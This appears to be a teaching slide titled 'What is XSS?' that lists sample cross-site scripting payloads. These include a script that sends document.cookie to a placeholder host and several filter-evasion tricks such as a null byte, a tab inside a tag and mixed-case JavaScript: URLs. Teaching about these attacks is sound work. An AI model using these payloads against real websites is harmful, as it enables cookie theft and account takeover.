

# What is XSS?
alert(‘xss’)
prompt(‘xss’)
%00<script> document.write('<img src="http://ip/?'+document.cookie+' "/>');</script>
<img %09onerror=alert(‘xss’) src=”a.net/pic.gif”>
<IMG SRC=JaVaScRiPt:alert('XSS')>
etc.